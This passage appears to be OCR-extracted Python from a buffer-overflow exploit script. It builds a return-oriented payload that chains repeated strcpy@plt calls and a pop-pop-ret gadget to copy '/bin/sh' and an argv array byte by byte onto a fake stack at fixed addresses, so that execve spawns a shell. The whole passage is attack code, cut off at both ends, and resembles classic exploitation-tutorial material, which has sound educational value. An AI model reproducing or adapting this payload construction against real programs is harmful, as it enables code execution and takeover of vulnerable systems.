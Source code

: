 ``` python
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
#Below stack frame is for strcpy (to copy execve path "/bin/sh" to custom stack @ loc 0x804ac60)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct2)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct3)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct4)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct5)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct6)
#Below stack frame is for strcpy (to copy execve argv[0] (0x804ac60) to custom stack @ loc 0x804ac68)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct4)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_argv1_oct3)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
```